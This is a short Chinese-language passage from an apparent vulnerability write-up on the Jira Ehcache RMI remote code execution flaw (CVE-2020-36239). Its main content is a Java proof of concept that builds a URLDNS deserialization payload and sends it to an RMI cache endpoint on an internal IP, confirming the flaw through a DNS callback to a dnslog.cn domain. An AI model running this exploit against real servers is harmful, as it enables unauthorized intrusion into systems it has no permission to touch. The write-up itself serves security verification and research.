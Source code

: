 ![image.png](./Jira_CVE2020-36239_RCE.assets/2023_05_19_16_08_49_kNeYuawU.png)

## 漏洞验证
所有绑定的 name, 都是绑定 net.sf.ehcache.distribution.RMICachePeer_Stub, 所以随机选一个就可以了， 使用 URLDNS 验证了漏洞确实存在
```java
package com.myproject.temp;

import net.sf.ehcache.distribution.RMICachePeer_Stub;

import java.lang.reflect.Field;
import java.net.URL;
import java.rmi.Naming;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://vd2vvt.dnslog.cn");
        HashMap hashMap = new HashMap();
        hashMap.put(url,"hhh");
        Field field = URL.class.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.setInt(url,-1);

        RMICachePeer_Stub rmiCachePeer_stub = (RMICachePeer_Stub) Naming.lookup("rmi://10.1.1.13:40001/com.atlassian.jira.index.property.CachingPluginIndexConfigurationManager.cacheByEntityKey");
        rmiCachePeer_stub.getQuiet(hashMap);
    }
}
```